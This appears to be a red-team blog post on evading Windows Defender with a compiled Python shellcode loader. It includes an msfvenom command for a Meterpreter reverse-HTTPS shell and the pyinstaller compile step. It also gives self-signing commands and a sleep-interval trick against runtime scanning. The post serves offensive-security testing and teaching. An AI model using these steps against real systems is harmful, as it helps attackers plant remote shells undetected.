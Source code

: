 ```yaml
---
title: "Pythonic Malware: Evading Detection with Compiled Executables"
layout: "post"
categories: "Windows"
tags: ["Evasion"]
---
```


Creating Python executables during an offensive security engagement used to be an effective method of evasion. However, this tactic has become increasingly difficult on modern Windows endpoints.

In fact, even benign programs seem to get blocked immediately after touching disk. This is just one of the reasons red teamers have moved away from popular frameworks such as [Veil-Evasion](https://github.com/Veil-Framework/Veil-Evasion) and onto bigger-better things.

This post revisits compiled Python’s use in offensive security testing and shares my experiences launching Meterpreter shells on a fully patched Windows 10 system against Windows Defender.


## Malware Creation

Given my primary focus was on evasion tactics in the compiled executable, I created a simple shellcode loader as my “malware”. The script called common Windows API’s such as `VirtualAlloc` & `CreateThread` to inject shellcode locally within the current process.

The payload itself utilized a `reverse_https` connection over port 443 and was generated by MSFVenom, without any encoding or obfuscation techniques:

```bash
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.1.157 LPORT=443 -f py
```

At this point, I didn't have much faith in the code and thought it was sure to get detected. However, when attempting to execute the Python script directly, no alerts were triggered and a reverse connection was established.

![](/assets/posts/pythonic-malware-pt1/pm1_1.png)


## Compiling Python

Despite triggering a successful Meterpreter shell, we cant rely on Python being installed on every Windows workstation. Therefore, the next step is to compile the source code — making it executable without needing any additional resources on the host.

Compiling Python is performed using tools like `pyinstaller`, `py2exe`, or `cx_freeze`. These work by wrapping the bytecode version (`.pyc`) of the script and all required dependencies/interpreters into a single `.exe` file:


```bash
pyinstaller --onefile .\shellcode_loader.py
```

Unfortunately, when downloading the newly compiled `shellcode_loader.exe` onto the target system, I didn't get very far before receiving the following alert:

![](/assets/posts/pythonic-malware-pt1/pm1_2.png)


## Evading Detection

### Code Signing

At this point, I thought about potential strategies to avoid detection and looked into signing the executable with a self-signed certificate.

Using the Visual Studio Developer Command Prompt, I executed the following commands to generate a certificate and sign the `shellcode_loader.exe` file.


```bash
>> makecert /r /h 0 /eku "1.3.6.1.5.5.7.3.3,1.3.6.1.4.1.311.10.3.13" /e 12/12/2025 /sv m8.pvk m8.cer
>> pvk2pfx /pvk m8.pvk /spc m8.cer /pfx m8.pfx
>> signtool sign /a /fd SHA256 /f m8.pfx shellcode_loader.exe
```

Now, looking at the file’s properties, “Joe’s-Software-Emporium” was listed under Digital Signature details— (*Microsoft Default*). With that, the executable could be downloaded without detection.

![](/assets/posts/pythonic-malware-pt1/pm1_3.png)


### Sleep Intervals

Although I was able to download the file, Windows Defender still flagged the program when attempting execution. That’s when I remembered reading [F-Secure’s post](https://labs.f-secure.com/blog/bypassing-windows-defender-runtime-scanning/) about evading Windows Defender Runtime Scanning, which provided lots of great takeaways.

In short, I found adding various sleep intervals between the Win32 API calls bypassed runtime scanning and successfully triggered a working reverse shell.

![](/assets/posts/pythonic-malware-pt1/pm1_4.png)


## Conclusion

A compiled Python executable wouldn’t be my first choice in a true red teaming engagement. However, this was a fun proof-of-concept and may prove useful in other areas of offensive security testing.

A final copy of my `shellcode_loader.py` script can be found on [GitHub](https://gist.github.com/m8sec/864c1feb9718e21df06e9bc5bb52f60f).

Thanks for reading!